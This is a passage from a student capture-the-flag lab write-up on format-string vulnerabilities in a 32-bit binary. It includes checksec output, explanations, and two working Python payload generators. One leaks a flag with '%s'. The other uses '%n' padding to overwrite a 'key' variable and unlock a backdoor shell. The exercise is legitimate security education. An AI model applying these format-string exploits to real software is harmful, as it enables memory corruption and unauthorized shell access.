 **`create_payload.py`**
```py
#!/usr/bin/python3
import sys

NUM_BYTES = 4

FLAG_ADDRESS = 0x804c060

content = \
    FLAG_ADDRESS.to_bytes(NUM_BYTES,byteorder='little') + \
    "%s".encode('latin-1')

with open('badfile', 'wb') as f:
  f.write(content)
```

## CTF - Task 2

**Output of `checksec`**
```sh
[11/30/21]seed@VM:~/.../Semana6-Desafio2$ checksec program
[*] '/home/seed/labs/ctf6/Semana6-Desafio2/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The ouput of `checksec` shows that this binary has the same security methods active as the program from Task 1.

* Where is the vulnerability? What can you do with this vulnerability?
    * Line 14 (`printf(buffer)`) contains another format string vulnerability, which we can still exploit through user input (which, in this case, is obtained in line 12: `scanf("%32s", &buffer)`).
* Is the flag loaded into memory? Or is there another functionality that you can use to access it?
    * No, the flag is not loaded into memory. Instead, the program has a backdoor which, if activated, gives us access to a shell, which will then allow us to navigate the server file system and print the contents of the flag.
* What do you need to do to unlock that functionality?
    * We need to modify the `key` global variable to be equal to `0xbeef` (48879 in decimal) in order to gain access to the backdoor.
    * To do this, we placed an arbitrary 4-byte value at the start of the payload, followed by the address of the `key` variable (discovered using `gdb`). We use the padding functionality of format strings to make `printf` print a total of 48879 characters and then use the `%n` format to write the number of characters printed so far to the `key` variable.

```py
#!/usr/bin/python3
import sys

NUM_BYTES = 4

KEY_ADDRESS = 0x0804c034

content = \
    (0xdeadbeef).to_bytes(NUM_BYTES,byteorder='little') + \
    KEY_ADDRESS.to_bytes(NUM_BYTES,byteorder='little') + \
    f"%{0xbeef - 8}x".encode('latin-1') + \
    "%n".encode('latin-1')

with open('badfile', 'wb') as f:
  f.write(content)
```
